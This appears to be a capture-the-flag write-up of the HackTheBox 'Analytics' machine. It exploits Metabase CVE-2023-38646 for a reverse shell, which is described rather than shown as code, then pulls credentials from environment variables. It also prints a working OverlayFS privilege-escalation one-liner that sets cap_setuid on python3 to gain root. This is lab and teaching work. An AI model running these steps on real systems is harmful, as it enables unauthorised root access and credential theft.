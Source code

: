# Analytics
- Easy rated Box
- Simple Web Application with a Login Page

## Enumeration

    nmap -sV 10.10.11.233

Reveals port 80 and port 22 in an open state
<Insert image here>

I then tried to connect to the IP address and it redirects me to a domain analytics.htb.  
I added the domain to my /etc/hosts

    echo "10.10.11.233 analytics.htb" | sudo tee -a /etc/hosts

<img src="assets/enumerate2.png">
<img src="assets/enumerate3.png">

The first thing that caught my attention was the login page. It led me to a subdomain data.analytics.htb  
Naturally, I added that to my /etc/hosts as well.

    echo "10.10.11.233 analytical.htb data.analytical.htb" | sudo tee -a /etc/hosts

<img src="assets/enumerate4.png">

After gaining access to the login page, I noticed that it was using Metabase.  
A Google search on it led to information on the tool, being an open source tool for data visualizing and querying.  

I also Googled any potential vulnerabilities which revealed 3 critical vulnerabilities (CVSS score over 9.0):
- CVE-2023-38646
- CVE-2023-37470
- CVE-2023-32680

<img src="assets/enumerate7.png">

I decided to check out CVE-2023-38646 as it has an EPSS (Exploit Prediction Scoring System) of 54%, making it likely this box is susceptible to it.  
The vulnerability explains that there is an RCE exploit using an accessible secret setup-token to create a new database, upon creation an H2 db string  
is created with a trigger, allowing the RCE.  

More can be read <a href="https://www.rapid7.com/db/modules/exploit/linux/http/metabase_setup_token_rce/">here</a>  

I fired up Burp Suite to further confirm my findings, it seems it does provide a setup-token in the Cookie header.    

<img src="assets/enumerate9.png">

I quickly Googled if there were any potential PoCs, I found this by <a href="https://www.github.com/securezeron/CVE-2023-38646">santosh-zeron</a>:

<img src="assets/enumerate10.png">
<br>
<img src="assets/enumerate11.png">

## Exploit

The exploit code basically tries to grab the token through the endpoint /api/session/properties/  
then creates a payload encoded in base64 to establish a reverse TCP shell. The token is sent  
through the endpoint /api/session/validate to create a database with the payload included.  

<img src="assets/exploit1.1.png">
<br>
<img src="assets/exploit1.2.png">
<br>
<img src="assets/exploit2.png">
<br>
<img src="assets/exploit3.png">

<br>
<br>

Basic system enumeration was done:  

    sudo -l
    cd ~; ls -la
    printenv

The printenv command reveals user credentials and a password  

<img src="assets/systemenum1.png">

## Privilege Escalation

After logging into the metalytics account, make sure to grab the user flag.  

Again, basic account and system enumeration was done. No sudo privileges, nor interesting processes are being run.  

    sudo -l
    ps aux

netstat didn't reveal any interesting services running on the system locally.

    netstat -tulpn

I decided to look further into the system itself after running a `uname -a` where it reveals to me that it's using Ubuntu 22.0.4LTS

<a href="https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/">Reddit</a> has information on CVE-2023-32629 where there is a privilege escalation vulnerability regarding OverlayFS.

    unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
    
    setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'

Will be able to tell if you are affected if root's id is outputted.
<img src="assets/privesc1.png">

<a href="https://github.com/briskets/CVE-2021-3493">CVE-2021-3493 PoC by briskets </a> exploits this vulnerability.  

The code will retrieve user and group IDs using getuid() and getgid() and unshares the mount and user namespace and configures the mappings for new user namespaces and to retain its privileges. 

An overlay is then mounted and copies the executable /proc/self/exe to the merged DIR /magic.

<img src="assets/privesc2.png">
<br>
<img src="assets/privesc3.png">
<br>
<img src="assets/privesc4.png">